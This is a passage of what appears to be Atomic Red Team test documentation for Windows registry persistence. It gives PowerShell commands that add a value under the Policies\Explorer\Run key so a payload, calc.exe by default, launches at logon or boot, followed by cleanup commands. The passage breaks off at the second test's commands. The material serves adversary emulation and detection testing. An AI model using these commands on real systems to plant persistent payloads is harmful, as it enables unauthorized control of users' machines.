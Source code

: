 **Supported Platforms:** Windows

**auto_generated_guid:** a70faea1-e206-4f6f-8d9a-67379be8f6f1

#### Inputs:

| Name                  | Description                           | Type   | Default Value                            |
| --------------------- | ------------------------------------- | ------ | ---------------------------------------- |
| target_key_value_name | registry value to crate on target key | string | atomictest                               |
| payload               | payload to execute                    | string | C:&#92;Windows&#92;System32&#92;calc.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
if (!(Test-Path -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run")){
  New-Item -ItemType Key -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run"
}
Set-ItemProperty -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" -Name "#{target_key_value_name}" -Value "#{payload}"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" -Name "#{target_key_value_name}"
```

<br/>
<br/>

## Atomic Test #13 - HKLM - Policy Settings Explorer Run Key

This test will create a HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run key value to launch calc.exe on boot.
\*Requires reboot

**Supported Platforms:** Windows

**auto_generated_guid:** b5c9a9bc-dda3-4ea0-b16a-add8e81ab75f

#### Inputs:

| Name                  | Description                           | Type   | Default Value                            |
| --------------------- | ------------------------------------- | ------ | ---------------------------------------- |
| target_key_value_name | registry value to crate on target key | string | atomictest                               |
| payload               | payload to execute                    | string | C:&#92;Windows&#92;System32&#92;calc.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)
